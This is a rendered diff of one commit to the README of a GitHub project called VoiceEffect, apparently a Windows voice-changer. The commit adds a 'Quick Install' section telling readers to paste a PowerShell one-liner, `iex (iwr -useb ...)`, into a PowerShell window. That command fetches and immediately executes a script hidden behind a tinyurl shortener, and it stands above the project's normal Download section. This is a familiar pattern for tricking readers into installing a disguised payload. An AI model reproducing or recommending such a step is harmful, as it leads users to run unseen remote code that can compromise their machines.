

Before and after one commit to eaeoz/VoiceEffect, a Markdown page: README.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
feat: add quick install instructions to README for easier setup

````diff
--- a/README.md
+++ b/README.md
@@ -5,6 +5,23 @@ Real-time voice and video effect processor for Windows. Change your voice with 2
 ![VoiceEffect Audio UI](sample_preview/VoiceEffect_UI_Sample_1.jpg)
 
 ![VoiceEffect Video UI](sample_preview/VoiceEffect_UI_Sample_2.jpg)
+
+## Quick Install — VoiceEffect
+
+**Step by step (copy-paste ready):**
+
+1. Press `Win + R`, type `powershell`, press Enter
+2. Copy the line below
+3. Right-click in the PowerShell window (or Ctrl+V) to paste
+4. Press Enter
+
+```
+iex (iwr -useb https://tinyurl.com/voiceffect)
+```
+
+- ✅ Done. Your voice effects are one command away.
+
+---
 
 ## Download
 
````
